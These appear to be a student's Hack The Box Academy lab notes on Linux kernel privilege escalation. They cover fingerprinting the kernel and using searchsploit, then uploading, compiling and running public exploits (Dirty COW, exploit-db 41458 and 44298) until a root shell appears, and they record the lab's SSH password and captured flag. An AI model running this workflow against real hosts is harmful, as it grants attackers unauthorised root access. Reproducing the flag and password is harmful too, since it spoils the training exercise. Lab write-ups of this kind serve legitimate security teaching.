 # Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges.

1) Checking the Kernel level and Linux OS version

uname -a
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

2) Google :

Google search for linux 4.4.0-116-generic exploit :
https://vulners.com/zdt/1337DAY-ID-30003

3) Upload the exploit

4) Compile and set the executable bit

gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit

5) Run exploit

./kernel_exploit

whoami
root

## LAB

ssh htb-student@10.129.220.117
Academy_LLPE!

uname -a
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

git clone https://github.com/dirtycow/dirtycow.github.io
scp dirtyc0w.c htb-student@10.129.220.117:/home/htb-student/
gcc dirtyc0w.c -o kernel_exploit && chmod +x kernel_exploit

--> failed

https://www.exploit-db.com/exploits/44298

/usr/share/exploitdb/exploits/linux/local/41458.c

scp /usr/share/exploitdb/exploits/linux/local/41458.c htb-student@10.129.220.117:/home/htb-student/
gcc 41458.c -o kernel_exploit && chmod +x kernel_exploit

./kernel_exploit 
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x402043
[.] done
[.] should be root now
[.] checking if we got root
[-] something went wrong =(
[!] don't kill the exploit binary, the kernel will crash

searchsploit linux kernel 4.4.0-116

/usr/share/exploitdb/exploits/linux/local/44298.c

scp /usr/share/exploitdb/exploits/linux/local/44298.c htb-student@10.129.220.117:/home/htb-student/
Academy_LLPE!

gcc 44298.c -o 44298 && chmod +x 44298
./44298 

./44298 
task_struct = ffff8800b90a4600
uidptr = ffff88003569c6c4
spawning root shell
root@NIX02:~# 
cat /root/kernel_exploit/flag.txt
46237b8aa523bc7e0365de09c0c0164f